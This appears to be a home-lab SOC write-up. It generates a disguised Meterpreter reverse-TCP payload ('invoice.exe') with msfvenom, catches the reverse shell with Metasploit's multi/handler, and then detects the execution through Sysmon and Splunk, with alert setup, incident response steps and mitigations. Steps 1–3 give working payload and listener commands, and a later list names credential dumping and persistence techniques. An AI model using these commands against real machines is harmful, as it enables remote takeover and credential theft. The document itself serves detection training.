







# Attack_2_Malicious_Payload

> Part of the [Home SOC Environment](https://github.com/khaled-sec/Home-SOC-Environment) — Module 04: Attack Simulation and Detection.

**Tool:** Metasploit Framework (`msfvenom`, `exploit/multi/handler`)

**MITRE ATT&CK:** T1204.002 – User Execution: Malicious File.

**Target:** Domain-joined Windows 10 — `192.168.1.20`

**Severity:** High

---

## Table of Contents

- [Scenario](#scenario)
- [Step 1: Generate the Payload — msfvenom](#step-1-generate-the-payload--msfvenom)
- [Step 2: Set Up the Listener — multi/handler](#step-2-set-up-the-listener--multihandler)
- [Step 3: Victim Executes the Payload — Session Opened](#step-3-victim-executes-the-payload--session-opened)
- [Step 4: Splunk Detection](#step-4-splunk-detection)
- [Step 5: Alert Configuration](#step-5-alert-configuration)
- [Step 6: Verify the Triggered Alert](#step-6-verify-the-triggered-alert)
- [Post-Exploitation Potential](#post-exploitation-potential)
- [Incident Response: Next Steps](#incident-response-next-steps)
- [Mitigations / Recommendations](#mitigations--recommendations)
- [What I Learned](#what-i-learned)
- [Skills Demonstrated](#skills-demonstrated)

---

## Scenario

With Sysmon and the Universal Forwarder already feeding process-creation telemetry into Splunk (Module 03), the next step was to simulate a classic payload-delivery attack: a malicious executable disguised as a legitimate file (`invoice.exe`) is dropped on the victim's machine and executed, giving the attacker a remote Meterpreter session. The goal was to validate that Sysmon Event ID 1 (Process Creation) captures this activity and that a Splunk alert can flag any new executable launched from a user's Downloads folder.

---

## Step 1: Generate the Payload — msfvenom

From the attacker machine (Kali), a Windows x64 Meterpreter reverse-TCP payload was generated and disguised as `invoice.exe`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.30 LPORT=4444 -f exe > invoice.exe
```

Output confirmed the payload was built successfully (510-byte raw payload, 7168-byte final `.exe`):



---

## Step 2: Set Up the Listener — multi/handler

A matching handler was configured in Metasploit to catch the reverse connection once the victim executed the payload:

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.30
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.30:4444
```



---

## Step 3: Victim Executes the Payload — Session Opened

`invoice.exe` was delivered to the Windows 10 victim machine and executed by the logged-in user. The handler immediately caught the callback and opened a Meterpreter session:

```
[*] Sending stage (203846 bytes) to 192.168.1.20
[*] Meterpreter session 1 opened (192.168.1.30:4444 -> 192.168.1.20:55330) at 2026-07-08 05:09:35 -0400
meterpreter >
```



This confirms full remote code execution on the endpoint.

---

## Step 4: Splunk Detection

### Initial query — confirm Sysmon captured the execution

```spl
index=endpoint_win10 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1 "invoice.exe"
```

Sysmon Event ID 1 recorded the full process-creation event, including the parent process, command line, and file hash:

- **Image:** `C:\Users\Administrator\Downloads\invoice.exe`
- **ParentImage:** `C:\Windows\explorer.exe`
- **ParentCommandLine:** `"C:\Windows\Explorer.EXE"`
- **User:** `AD\Administrator`
- **SHA256:** `0B826E332B6571913C7592CC710C5055EF714CD7A564ED7C7F49F806180B9E1E`



### Generalized detection query

Rather than hardcoding the filename, the query was broadened to catch **any** executable/script launched from a Downloads folder — a common pattern for payload-delivery attacks:

```spl
index=endpoint_win10 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1
| search Image="*\\Downloads\\*.exe" OR Image="*\\Downloads\\*.msi" OR Image="*\\Downloads\\*.ps1" OR Image="*\\Downloads\\*.bat"
| table _time, User, Image, ParentImage, Hashes
```

Returned a single matching row confirming `invoice.exe` was launched from the Downloads folder with `explorer.exe` as its parent:



---

## Step 5: Alert Configuration

The query was saved as a scheduled alert:

- **Title:** New Executable Downloaded
- **Alert Type:** Scheduled, Cron: `*/5 * * * *` (every 5 minutes)
- **Time Range:** Last 24 hours
- **Trigger Condition:** Number of Results > 0
- **Trigger:** For each result
- **Expires:** 24 hours
- **Trigger Action:** Add to Triggered Alerts
- **Severity:** High



---

## Step 6: Verify the Triggered Alert

Navigated to **Activity → Triggered Alerts** and confirmed the **New Executable Downloaded** alert fired on schedule alongside the earlier **Brute Force Detected** alert from Attack 1 — both now running side by side in the environment:



---

## Post-Exploitation Potential

- Full interactive control of the endpoint via Meterpreter (file system access, screenshot capture, keylogging)
- Privilege escalation attempts (e.g. `getsystem`, token impersonation)
- Credential harvesting (`hashdump`, LSASS memory access)
- Establishing persistence (scheduled tasks, registry run keys, new services)
- Pivoting further into the domain using the compromised endpoint as a foothold

---

## Incident Response: Next Steps

If this were a real detection rather than a controlled lab exercise, the alert firing would trigger the following response, roughly in order:

### 1. Contain
- **Isolate the endpoint** (`192.168.1.20`) from the network immediately to cut off the C2 channel.
- **Kill the malicious process** (`invoice.exe`) and terminate any active Meterpreter session.
- **Block the C2 IP/port** (`192.168.1.30:4444` in this lab) at the firewall/EDR level.

### 2. Investigate
- **Pull the file hash** (SHA256) from the Sysmon event and check it against threat intel sources (VirusTotal, internal IOC feeds).
- **Identify delivery vector** — check email gateway logs, browser download history, or removable media logs to determine how `invoice.exe` reached the Downloads folder.
- **Check for persistence mechanisms** — Sysmon Event ID 13 (Registry) for Run keys, Event ID 1 for `schtasks.exe`/`sc.exe` invocations, and Event ID 11 for suspicious file drops.
- **Review network connections** — Sysmon Event ID 3 for outbound connections from the endpoint to identify the C2 destination and confirm the beacon.
- **Check for lateral movement** — search `endpoint_win10` (and other forwarders) for the same file hash or destination IP appearing on other hosts.

### 3. Recover & Harden
- **Reimage the compromised endpoint** if full compromise is confirmed, rather than attempting to "clean" it.
- **Reset credentials** for any account that was logged in during the compromise window.
- **Deploy the file hash as a blocklist IOC** across EDR/AV to prevent re-execution elsewhere in the environment.

---

## Mitigations / Recommendations

- **Block internet downloads via Group Policy (AD)** — Push a GPO from the Domain Controller (SERVER.LOCAL) to restrict direct internet file downloads on domain-joined endpoints, applying instantly across all joined machines.
- **Email/web attachment filtering** — Block or sandbox executable attachments and downloads at the email gateway/proxy before they ever reach the endpoint, since `invoice.exe` simulates a classic phishing lure.
- **Application whitelisting** — Only allow known, signed binaries to run; an unsigned `invoice.exe` with no vendor metadata should never execute silently.
- **Endpoint protection / EDR** — Ensure real-time AV/EDR is enabled and up to date; a generic `msfvenom` payload without an encoder is trivially signature-detectable by most modern AV.
- **User awareness training** — Since this attack relies entirely on a user executing an unexpected file, regular phishing-simulation training reduces the odds of the initial execution succeeding.
- **Egress filtering** — Restrict outbound traffic from workstations to only necessary destinations/ports, which would have blocked or flagged the reverse-TCP callback to `4444`.
- **Least privilege** — The victim process ran as `AD\Administrator`; enforcing least-privilege (standard user accounts for daily use) would limit the blast radius of a successful execution.

---

# What I Learned

- Simulated a full payload-delivery-to-execution chain using `msfvenom` and `multi/handler`.
- Validated that Sysmon Event ID 1 reliably captures process creation, parent-child relationships, and file hashes for forensic use.
- Built a generalized Splunk detection for "new executable launched from Downloads" instead of hardcoding a single filename/IOC, making the detection reusable against future payloads.
- Ran two independent scheduled alerts (Brute Force + New Executable Downloaded) concurrently in the same Splunk instance.

---

# Skills Demonstrated

- Payload Generation & Delivery Simulation (msfvenom)
- C2 Handler Configuration (Metasploit `multi/handler`)
- Sysmon Process-Creation Telemetry Analysis
- SPL Detection Engineering (generalized IOC-agnostic query)
- SIEM Alert Engineering (Scheduled + Severity Classification)
- Incident Response Planning
- MITRE ATT&CK Mapping (T1204.002)
